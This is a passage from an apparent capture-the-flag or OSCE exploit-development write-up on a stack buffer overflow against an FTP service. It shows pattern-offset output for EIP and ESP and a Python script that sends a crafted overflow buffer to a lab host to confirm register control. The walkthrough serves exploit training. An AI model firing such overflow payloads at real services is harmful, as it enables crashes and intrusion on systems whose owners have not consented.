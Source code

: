 For now we're only interested in the offset of `EIP` and `ESP`, and the point at which the `NULL` bytes stop being written; if we need others then we will figure them out later:

{% codeblock Offset calculations %}
$ pattern_offset.rb 0Ak1    
[*] Exact match at offset 302
$ pattern_offset.rb 41386A41
[*] Exact match at offset 294
$ pattern_offset.rb 8Ai9
[*] Exact match at offset 266
{% endcodeblock %}

Here we can see that EIP and ESP are actually quite close together. Let's modify our exploit to see if we have our offsets correct (we'll worry about the shellcode start later). The script now looks like this:

{% codeblock sploit.py version 2 lang:python %}
#!/usr/bin/python

import socket

host = '10.1.10.34'
port = 21

def read_file(path):
  with open(path, 'r') as f:
    return f.read()

def pwn(payload):
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((host, port))
  s.recv(2048)
  s.send(payload)
  s.shutdown
  s.close

max_size = 365
offsets = {
  'SC': 266,
  'EIP': 294,
  'ESP': 302,
}

print "[*] Attacking {0}:{1} ...".format(host, port)

command  = ""
command += "A" * (offsets['EIP'] - len(command))
command += "BBBB"
command += "C" * (offsets['ESP'] - len(command))
command += "DDDD"
command += "E" * (max_size - len(command))

print "[*] Command {0} chars...".format(len(command))
pwn(command)
{% endcodeblock %}


  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux